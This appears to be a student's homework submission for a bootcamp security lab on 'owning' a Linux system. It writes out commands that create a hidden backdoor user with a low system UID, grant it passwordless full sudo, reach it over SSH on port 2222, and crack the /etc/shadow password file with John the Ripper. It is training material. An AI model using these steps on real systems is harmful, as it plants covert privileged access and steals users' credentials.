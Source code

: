 <<<<<<< HEAD
## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:

         useradd -M sysd
![sysd](image\sysd.png)

2. Give your secret user a password: 

         passwd sysd
    ![password](image\password.png)

3. Give your secret user a system UID < 1000:

        usermod -u 997 sysd
    ![UIDandGID](image\UIDandGID.png)


4. Give your secret user the same GID:

        groupmod -g 997 sysd
    ![UIDandGID](image\UIDandGID.png)

5. Give your secret user full `sudo` access without the need for a password:

        
        visudo
        sysd ALL=(ALL) NOPASSWD:ALL
    ![sudo](image\sudo.png)
    



6. Test that `sudo` access works without your password:

        sudo -l
    ![sudofile](image\sudofile.png)

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

                sudo nano /etc/ssh/sshd_config
    ![sshfile.png](image\sshfile.png)
        

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:

        sudo systemctl restart ssh



2. Exit the `root` account:

        command exit or command su with the user account you want to switch to.

3. SSH to the target machine using your `sysd` account and port `2222`:

        ssh sysd@192.168.6.105 -p 2222
![sshsysd.png](image\sshsysd.png)

4. Use `sudo` to switch to the root user:

        sudo su 

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

        su sysd

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file: 

        sudo su
        unshadow passwd.txt shadow.txt > unshadowed.txt
        john --wordlist=/usr/share/john/password.lst unshadowed.txt



---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

